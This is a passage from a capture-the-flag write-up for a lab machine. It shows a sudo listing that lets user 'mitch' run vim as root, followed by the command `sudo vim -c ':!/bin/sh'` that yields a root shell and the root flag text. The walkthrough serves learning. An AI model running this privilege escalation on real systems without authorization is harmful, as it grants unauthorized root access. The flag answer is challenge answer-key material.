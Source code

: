     - Check sudo permissions:

    ```bash
    $ sudo -l
    User mitch may run the following commands on Machine:
        (root) NOPASSWD: /usr/bin/vim
    ```

---

### What's the root flag?
- **Answer:** W3ll d0n3. You made it!
- **Steps to Reproduce:** 
    - Use vim to escalate privileges:

```bash
$ sudo vim -c ':!/bin/sh'

# whoami 
root
# cd /root      
# ls
root.txt
# cat root.txt  
W3ll d0n3. You made it!
```

---